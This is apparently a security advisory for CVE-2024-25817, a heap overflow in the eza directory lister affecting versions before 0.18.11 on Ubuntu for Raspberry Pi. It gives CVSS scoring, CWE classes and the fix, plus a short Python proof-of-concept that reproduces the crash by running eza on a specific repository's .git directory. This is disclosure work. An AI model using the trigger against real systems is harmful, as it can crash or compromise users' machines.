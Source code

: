 ```yaml
---
title: "CVE-2024-25817"
published: 2024-02-07
updated: 2024-06-08
description: >-
  "In eza, there exists a potential heap overflow vulnerability, first seen when
  using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel,
  relating to the `.git` directory."
tags: ["CVE"]
category: "CVE"
draft: false
---
```


# Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

# Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

# PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

## Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

## Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

<center>
  <img src="https://cdn.jsdelivr.net/gh/CuB3y0nd/IMAGES@master/assets/pF1fNkT.png" />
</center>

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above script.

# Impact

Arbitrary code execution.

# Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

# Weaknesses

- Heap-based Buffer Overflow (CWE-122)
- Improper Restriction of Operations within the Bounds of a Memory Buffer
  (CWE-119)
- Missing Release of Memory after Effective Lifetime (CWE-401)
- Improper Resource Shutdown or Release (CWE-404)
- Improper Initialization (CWE-665)

# GitHub Advisories

- GitHub Advisories.[^3]

# NIST

- National Vulnerability Database.[^4]

# Solution

Update eza to `0.18.11` or higher version.

# References

[^1]:
    [eza](https://github.com/eza-community/eza/tree/main): A modern,
    maintained replacement for ls.

[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)
